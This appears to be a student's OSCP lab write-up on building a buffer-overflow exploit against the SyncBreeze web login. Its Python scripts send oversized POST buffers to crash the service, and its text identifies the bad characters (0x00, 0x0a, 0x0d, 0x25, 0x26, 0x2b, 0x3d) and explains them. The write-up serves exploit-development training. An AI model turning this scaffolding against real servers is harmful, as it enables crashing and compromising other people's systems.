



11.2.5.1

# 11.2.5.1
## 11.2.5.1.1. Repeat the required steps in order to identify the bad characters that cannot be included in the payload.

**Bad characters CANNOT be in the buffer, return address, or shellcode.**

### Locate space for payload (shellcode). We will attempt to increase our buffer to 1500 bytes while still maintaining the same buffer overflow condition. Here is the code:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 6_placeholder_for_shellcode.py 
#!/usr/bin/python
import socket
import sys

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
    
    inputBuffer = filler + eip + offset + buffer
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

### Verify the crash points to our shellcode placeholder location (DDDD's)


### Start off with a script that holds all hex characters except 0x00, which has already been taken out because it is a known bad character. Here is the script:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 7_check_bad_chars_original.py 
#!/usr/bin/python
import socket
import sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + badchars
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()

```

### Verify the crash, then right-click the ESP and 'Follow in Dump'


We already know a bad character is 0x00. From this output, we see that 0x0a is another bad char


### Take out 0x0a from the script, and run again. The next bad char is 0x0d


### Take out 0x0d, and run again. The next bad char is 0x25.


### Take out 0x25, and run again. We see the next bad char is 0x26


### Take out 0x26, and run again. We see the next bad char is 0x2b


### Take out 0x2b, and run again. We see the next bad char is 0x3d


### Take out 0x3d, and run again. We see it run to FF without skipping any characters. There are no more bad chars!


### Here is the script without any bad chars
The bad chars are: **x00\x0a\x0d\x25\x26\x2b\x3d**
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 7_check_bad_chars.py 
#!/usr/bin/python
import socket
import sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x27\x28\x29\x2a\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + badchars
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

## 11.2.5.1.2. Why are these characters not allowed? How do these bad hex characters translate to ASCII?

### ASCII control characters (e.g. backspace, vertical tab, horizontal tab, line feed etc), unsafe characters like space, \, <, >, {, } etc, and any character outside the ASCII charset is not allowed to be placed directly within URLs. 
Reference: https://www.urlencoder.io/learn/

0x00 → Null Character terminates strings. Non-printable
0x0a → Line Feed which terminates an HTTP field the same way as a carriage return. Non printable
0x0d → Carriage Return that signifies the end of an HTTP field (in this case username as part of HTTP POST request)

### The following printable characters are not allowed because they are reserved characters. The purpose of reserved characters is to provide a set of delimiting characters that are distinguishable from other data within a URI. URIs that differ in the replacement of a reserved character with its corresponding percent-encoded octet are not equivalent. Percent-encoding a reserved character, or decoding a percent-encoded octet that corresponds to a reserved character, will change how the URI is interpreted by most applications. 
Reference:  https://pretty-rfc.herokuapp.com/RFC3986#reserved

0x25 → Percent Sign (%)
0x26 → Ampersand (&)
0x2b → Plus sign (+)
0x3d → Equal sign (=)

Reference:
